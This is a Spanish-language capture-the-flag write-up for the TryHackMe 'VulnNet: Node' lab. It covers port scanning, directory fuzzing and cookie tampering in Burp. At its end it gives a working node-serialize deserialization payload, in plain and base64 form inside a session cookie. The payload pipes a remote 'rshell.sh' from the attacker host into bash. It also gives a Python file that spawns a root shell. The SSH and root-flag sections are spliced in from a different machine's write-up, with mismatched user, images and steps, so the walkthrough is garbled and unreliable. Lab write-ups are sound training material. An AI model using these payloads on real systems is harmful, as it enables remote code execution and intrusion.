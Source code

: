 ```yaml
---
layout: single
title: VulnNet2 Node
excerpt: "After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?"
date: 2022-05-02
classes: wide
header:
  teaser: /assets/images/thm-writeup-vuln/vuln_logo.png
  teaser_home_page: true
  icon: /assets/images/thm_ico.png
categories:
  - TryHackMe
  - infosec
tags:
  - Security
  - Linux
  - Web
  - Javascript
  - Privilege escalation
---
```


![logo](/assets/images/thm-writeup-vuln/vuln_logo.png)

[Link](https://tryhackme.com/room/vulnnetnode "vuln")

VulnNet Entertainment has moved its infrastructure and now they're confident that no breach will happen again. You're tasked to prove otherwise and penetrate their network.

    Difficulty: Easy
    Web Language: JavaScript

This is again an attempt to recreate some more realistic scenario but with techniques packed into a single machine. Good luck!

    Author: SkyWaves
    Discord: SkyWaves#1397

---

## 1. Fase de reconocimiento

- Para conocer a que nos estamos enfrentando lanzamos el siguiente comando:

~~~css
ping -c 1 {ip}
~~~

![ping](/assets/images/thm-writeup-vuln/vuln_ping.png)

- De acuerdo con el ttl=63 sabemos que nos estamos enfrentando a una máquina con sistema operativo Linux.

---

## 2. Enumeración / Escaneo

- Escaneo de la totalidad de los **_65535_** puertos de red el cual guardamos en un archivo en formato **_nmap_** con el siguiente comando:

```css
└─# nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn {ip} -oN allports
```

![nmap_allports](/assets/images/thm-writeup-vuln/vuln_nmap_allports.png)

---

- De acuerdo con el escaneo anterior, se encuentran el siguiente puerto abierto; 8080 (htp)

- Escaeno de vulnerabilidades sobre los puerto 8080:

```css
nmap -v -A -sC -sV -Pn {ip} -p22,80 --script vuln

```

---

- Whatweb nos da la siguiente información:

```css
whatweb {ip}
```

![what_web](/assets/images/thm-writeup-vuln/vuln_whatweb.png)

---

- Revisión de la URL **_<http://10.10.8.158:8080>_**:

![URL](/assets/images/thm-writeup-vuln/vuln_web.png)

- Buscando el la ruta **_robots.txt_**, no se encontró nada interesante:

![URL](/assets/images/thm-writeup-vuln/vuln_robots_txt.png)

---

## 3. WFUZ

- Escaeno de subdominios con wfuzz:

```css
└─# wfuzz --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 10.10.8.158:8080/FUZZ/
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.8.158:8080/FUZZ/
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                         
=====================================================================
        
000000002:   200        0 L      706 W      7577 Ch     "#"                             
000000004:   200        0 L      706 W      7577 Ch     "#"                             
000000053:   200        112 L    229 W      2127 Ch     "login"                         
000000825:   200        112 L    229 W      2127 Ch     "Login"  
```

- Con el anterior escaner encotramos una página de inicio de sesión **login - Login** :

![Login](/assets/images/thm-writeup-vuln/vuln_login.png)

---

## 4 Burpsuite

![Burp](/assets/images/thm-writeup-vuln/vuln_burp_guest.png)

vuln_burp_guest.png

- Modificamos la petición con nuestra ***cookie*** modificada y obervamos en la respuesta que nos recibe como admin.
  
![Burp](/assets/images/thm-writeup-vuln/vuln_burp.png)



## 4. SSH

- Con la contraseña obtenida con **_hydra_** del usuario **_meliodas_** procedemos a establecer una conexión via **\*ssh**.

```css
└─# ssh meliodas@{ip}
```

![ssh](/assets/images/thm-writeup-library/library_ssh.png)

## 5. Bandera de usuario

- Listamos con **_ls_** y encontramos el archivo **_user.txt_**:

![usr](/assets/images/thm-writeup-library/library_usr.png)

---

## 6. Bandera root

- Búsqueda de vulnerabilidades con el comando **_sudo -l_**:

![root](/assets/images/thm-writeup-library/library_ls.png)

- Creación del binario **_zipfile.py_**, desde la máquina atacante, con el siguiente contenido que nos va a escalar una **_bash_** como root:

```css
library_ls.pngimport os

ZIP_DEFLATED = 1

def ZipFile(param1, param2, param3):
        print(os.system('/bin/bash'))
```

- Procedemos a compartirlo con un servidor en **_python_**

![root](/assets/images/thm-writeup-library/library_server.png)

---

- Descargamos el archivo creado en la máquina con **_wget_**:

![wget](/assets/images/thm-writeup-library/library_wget.png)

---

- Ejecutamos el script **_bak.py_** y obtenemos la bandera root:

![root](/assets/images/thm-writeup-library/library_root.png)

---

## 7. Fuentes

- Writeup:

<https://r4bb1t.medium.com/library-write-up-7dd5d5c5a9eb>

_$$ND_FUNC$$_function (){\n \t require('child_process').exec('curl 10.9.0.20/rshell.sh | bash', function(error, stdout, stderr) { console.log(stdout) });\n }()

eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtcbiBcdCByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCAxMC45LjAuMjAvcnNoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO1xuIH0oKSIsImlzR3Vlc3QiOmZhbHNlLCJlbmNvZGluZyI6ICJ1dGYtOCJ9

GET / HTTP/1.1
Host: 10.10.251.107:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtcbiBcdCByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCAxMC45LjAuMjAvcnNoZWxsLnNoIHwgYmFzaCcsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO1xuIH0oKSIsImlzR3Vlc3QiOmZhbHNlLCJlbmNvZGluZyI6ICJ1dGYtOCJ9
Upgrade-Insecure-Requests: 1
If-None-Match: W/"1daf-dPXia8DLlOwYnTXebWSDo/Cj9Co"
Cache-Control: max-age=0
